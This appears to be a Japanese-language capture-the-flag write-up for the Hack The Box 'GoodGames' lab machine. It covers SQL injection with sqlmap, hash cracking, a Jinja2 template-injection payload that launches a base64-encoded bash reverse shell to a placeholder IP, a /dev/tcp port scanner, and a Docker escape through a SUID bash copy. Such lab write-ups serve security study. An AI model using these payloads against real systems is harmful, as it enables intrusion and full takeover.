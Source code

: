 # GoodGames  
Hack The Box : GoodGamesのWriteupです。

| 作成者 | 難易度 | プラットフォーム |  
|:----:|:-----:|:---------------:|
| TheCyberGeek | Easy | Linux |  

### 参考  
- 公式Write-up  
- https://7rocky.github.io/en/htb/goodgames/

### foothold  

まずはnmap  

~~~
┌──(uwqpm㉿kali)-[~/htb/goodgames]
└─$ nmap -sV -n -Pn -A -p 21-25,35,43,53,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,5555,7777,8008,8065,8080,8443,8888 goodgames.htb 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-27 04:27 EDT
Nmap scan report for goodgames.htb (10.129.68.206)
Host is up (0.24s latency).
Not shown: 68 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.28 seconds
~~~  

80番ポートのみ開いているのでとりあえずブラウザからアクセス。  
![goodgames1](images/goodgames/goodgames1.png)  

気になる部分はログイン機能くらいなので、sqlmapでSQL Injectionをしてみる。  

一旦適当なIDとパスワードでログインを試行し、そのリクエストをBurpで取得する。  
そのリクエストを"goodgames.req"として保存する。  
※下記がそのリクエストファイルの中身  
~~~
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://goodgames.htb
Connection: close
Referer: http://goodgames.htb/
Upgrade-Insecure-Requests: 1

email=admin%40goodgames.htb&password=test
~~~

下記を実行すると、"email"がSQLI可能だと分かる。  
```$ sqlmap -r goodgames.req```  

![goodgames2](images/goodgames/goodgames2.png)  

続いて下記を実行するとadminユーザのパスワードhashが手に入る。  
```$ sqlmap -r goodgames.req --dump```  

![goodgames3](images/goodgames/goodgames3.png)  

とりあえず既にクラックされているパスワードか下記サイトで確認する。  
https://crackstation.net/

無事見つかった。  

![goodgames4](images/goodgames/goodgames4.png)  

下記が見つかったID / パスワードである。  
admin@goodgames.htb / superadministrator


### user  
footholdの段階で発見したIDとパスワードでログインする。  

ログイン後、右上に歯車のマークが現れ、新たなサブドメインが取得できる。  
```internal-administration.goodgames.htb```  

/etc/hostsに登録してアクセスすると新たなログイン画面が現れる。  

"admin"と先ほど得た"superadministrator"でログインしてみると下記のDashboardに移る。  

![goodgames5](images/goodgames/goodgames5.png)  

プロフィールの設定画面の"Full Name"欄に下記のような文字列を入れてみる。  
```{{ 7*7 }}```  

![goodgames6](images/goodgames/goodgames6.png)  

保存すると、名前の部分が7*7の計算結果となった。  

![goodgames7](images/goodgames/goodgames7.png)  

これでSSTI可能ということが分かった。  

一旦、Shellを取得するためのペイロードを作成する。  

被攻撃側で実行したいコマンドはこちら。  
※(\<IP\>の部分は自身の環境のものを指定する)
```bash -i >& /dev/tcp/<IP>/7777 0>&1```  

これをこのまま送るのは難しいので、一旦base64でエンコードする。
※エンコード結果の末尾に=が含まれてたりすると失敗する気がするので、スペースを1つから2つに増やすなどして=が出力されないように調整する。  
```echo "bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64```  

下記のように入力する。  
\<Base64の値\>を上記で出力した値に置き換える。  
```{{request.application.__globals__.__builtins__.__import__('os').popen('echo <Base64の値> | base64 -d | bash').read()}}```  

別のターミナルを開き、下記コマンドで待ち受けておく。  
```$ nc -lnvp 7777```  

この状態でSave allボタンを押すとShellが取得できる。  
※一見rootに見えるが、UserのShell。  

![goodgames8](images/goodgames/goodgames8.png)  

以上でuserの取得は完了。  

#### root  
userのステップで取得したShellは、Webアプリケーションが動いているDocker上のShellなのでエスケープする必要がある。  

/homeディレクトリを見てみると、"augustus"というユーザがいることが分かる。  

augustusのディレクトリを見ると所有者名等が1000になっていることが分かる。  

![goodgames9](images/goodgames/goodgames9.png)  

下記コマンドを実行してみる。  
```$ mount```  
すると下記のような出力が得られる。  
```/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)```  

Dockerでは、ホスト上のフォルダ等を指定したフォルダにマウントでき、それを利用していると考えられる。  

続いて下記コマンドを実行する。  
```$ ifconfig```  

すると下記の結果が得られる。  

![goodgames10](images/goodgames/goodgames10.png)  

"172.19.0.2"が割り当てられていることが分かる。  

これはこのDockerコンテナに割り当てられたIPアドレスで、ホストには"172.19.0.1"が割り当てられていると考えられる。  

そこで、"172.19.0.1"に対してのポートスキャンを試みる。  

コンテナ上にはnmapが入っていなかったので、下記のシェルスクリプトを送り込み、実行することにする。  

~~~
#!/bin/bash

for p in `seq 1 65535`; do
        timeout 1 echo 2>/dev/null > /dev/tcp/$1/$p && echo "Port $p open" &
done; wait
~~~

実行権限を付与し、引数に"172.19.0.1"を指定して実行する。  

すると22番ポートが開いていることが分かる。  

しかし現在のShellではsshを実行しようとするとエラーが発生する。  

下記コマンドで制限を回避する。  
```# script /dev/null bash```  

この状態で下記コマンドでssh接続を試行すると、無事接続できる。  
※ユーザ名は"augustus"、パスワードは"superadministrator"  
```# ssh augustus@172.19.0.1```  

![goodgames11](images/goodgames/goodgames11.png)  

また、現在の場所がDockerコンテナにマウントされていたっぽいことも分かる。  

なので、/bin/bashをここにコピーする。  

```$ cp /bin/bash ./exploit```  

一旦DockerコンテナのShellに戻る。  

このユーザはrootでUIDは0なので、先ほどコピーしてきたbash(exploit)所有者をrootにし、SUIDをセットすれば一般ユーザでもrootの権限でShellを操作できるようになる。  

下記を実行する。  
~~~
# chown root:root /home/augustus/exploit
# chmod 4755 /home/augustus/exploit
~~~

もう一度sshで"172.19.0.1"に接続し、下記を実行する。  

```$ ./exploit -p```  

![goodgames12](images/goodgames/goodgames12.png)  

実効ユーザ(euid)がrootになっており、whoamiの結果もrootとなっていることが分かる。  

以上でrootの取得も完了。  

